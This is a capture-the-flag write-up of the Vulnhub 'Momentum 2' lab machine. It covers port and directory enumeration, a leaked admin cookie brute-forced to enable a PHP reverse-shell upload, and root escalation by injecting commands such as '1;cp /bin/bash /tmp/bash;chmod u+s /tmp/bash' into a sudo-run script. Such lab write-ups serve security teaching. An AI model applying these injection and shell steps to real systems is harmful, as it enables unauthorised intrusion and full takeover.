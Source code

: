 ```yaml
---
title: Vulnhub Momentum 2 Writeup
date: 2022-10-07 12:00:00 -0700
categories: [ctf]
tags: [hacking,writeup,web,linux] # TAG names should always be lowercase
---
```


# Momentum 2
---
Here we will be going over the Momentum 2 box from Vulnhub. This box will test your ability on enumeration, web exploitation, and Linux privilege escalation. 


## Part 1
---
Before we start. Lets add the machines IP to an environment to make things easier on us.

```shell
set IP = <box-IP>
```

Now that's done lets begin:

As with all boxes we start with our network enumeration.

```shell
nmap -sC -sV -oN nmap/initial $IP
```

Here we see we have 2 ports open:

```shell
# Nmap 7.92 scan initiated Fri Sep 23 08:36:58 2022 as: nmap -sC -sV -oN nmap/initial 172.16.42.164
Nmap scan report for 172.16.42.164
Host is up (0.00044s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 02:32:8e:5b:27:a8:ea:f2:fe:11:db:2f:57:f4:11:7e (RSA)
|   256 74:35:c8:fb:96:c1:9f:a0:dc:73:6c:cd:83:52:bf:b7 (ECDSA)
|_  256 fc:4a:70:fb:b9:7d:32:89:35:0a:45:3d:d9:8b:c5:95 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Momentum 2 | Index
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 23 08:37:05 2022 -- 1 IP address (1 host up) scanned in 6.70 seconds
```

Since we have a web port open running Apache we can begin enumeration on that URL using Gobuster. ( Ensure to specify the file extensions you are looking for otherwise you will be stuck on this point. )

```shell
gobuster dir -u http://$IP -w ~/Hack/wordlists/dirbuster/directory-list-2.3-medium.txt  -x .cgi,.txt,.php,.html,.py,.sh,.jpg,.png,.bak,.php.bak -t 100 
```

You should see output similar to this.

```shell
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.16.42.164
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /home/user/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              sh,jpg,bak,cgi,txt,php,html,py,png,php.bak
[+] Timeout:                 10s
===============================================================
2022/10/05 19:29:36 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 312] [--> http://172.16.42.164/img/]
/index.html           (Status: 200) [Size: 1428]
/ajax.php             (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 312] [--> http://172.16.42.164/css/]
/ajax.php.bak         (Status: 200) [Size: 357]
/manual               (Status: 301) [Size: 315] [--> http://172.16.42.164/manual/]
/js                   (Status: 301) [Size: 311] [--> http://172.16.42.164/js/]
/dashboard.html       (Status: 200) [Size: 513]
/owls                 (Status: 301) [Size: 313] [--> http://172.16.42.164/owls/]
/server-status        (Status: 403) [Size: 278]

[!] Keyboard interrupt detected, terminating.
===============================================================
2022/10/05 19:31:17 Finished
===============================================================
```

We can see a few interesting files we might want to check out:
- owls
- dashboard.html
- ajax.php.bak

browsing to the first, we see a page that displays a directory tree we can access.

![](assets/images/vulnhub/momentum2/owls.png)

Browsing to the second, we see an uploads page.

![](/assets/images/vulnhub/momentum2/dashboard.png)

Browsing to the last, we are able to download the file.

After the download is complete we see some useful information.

```php
    //The boss told me to add one more Upper Case letter at the end of the cookie
   if(isset($_COOKIE['admin']) && $_COOKIE['admin'] == '&G6u@B6uDXMq&Ms'){

       //[+] Add if $_POST['secure'] == 'val1d'
        $valid_ext = array("pdf","php","txt");
   }
   else{

        $valid_ext = array("txt");
   }

   // Remember success upload returns 1 % 
```

Here we see that if we add the correct admin cookie and a second post parameter of secure = val1d, then we can upload .php files to the uploads page. 

To do this we can use Burpsuite to intercept the request and manipulate it to send our php reverse shell.

First lets get our PHP reverse shell from PentestMonkey and ready by adding our IP and a port we want to listen on in the fields listed in the Revshell.

Here is what needs to be added to the request as stated in the ajax.php.bak.

![](/assets/images/vulnhub/momentum2/burp1.png)

Send the request over to intruder to find out the last digit. Add the squiggle "s" to the end of the cookie and go to payloads.

![](/assets/images/vulnhub/momentum2/request.png)

Under payloads add uppercase letters to the list and hit start attack.

![](/assets/images/vulnhub/momentum2/burp3.png)

You should see a "1" in the response from "R" indicating that is the letter needed. Add the letter to the end of the cookie in the proxy tab. Forward the request and the shell should go through.

Open a terminal, and open a listener on the port you put in the reverse shell. Go to the owls page and select your shell. You now have a shell on the machine!

Now that your on you can start looking for privesc routes. Being the "www" user you have basically no rights. So we need to see if their are any ways from our current user to root or another user. We see in the home directory that their is a user named "athena" and she has her password written down in a file in her directory. We use this to switch to her account. 

```shell
su athena
```

As athena we can read the user flag in her home directory.

![](/assets/images/vulnhub/momentum2/momentum-2-user-flag.png)

Now first thing I normally do, is see if I have sudo privilege to any files or binaries.

```shell
sudo -l
```

I see that as athena we are able to run a python script as root. This script takes a seed we give it and outputs an admin cookie for the site. We can abuse this due to no input filters put in place and spawn a shell by adding this to out seed.

I tried  "bash -i" with the seed. For an example.
```shell
1;bash -i
```

It didn't quite work due to it spawning an unstable dead shell.

So I tried to add the SUID bit to bash by copying the binary to /tmp and using this in place of "/bin/bash" when running the shell.

```shell
1;cp /bin/bash /tmp/bash;chmod u+s /tmp/bash
```

Finally I can gain a root shell by using.

```shell
/tmp/bash -p
```

You now have a root shell and can retrieve the root flag.

![](/assets/images/vulnhub/momentum2/momentum-2-root-flag.png)

This concludes the momentum series from Vulnhub! follow me on my socials for more!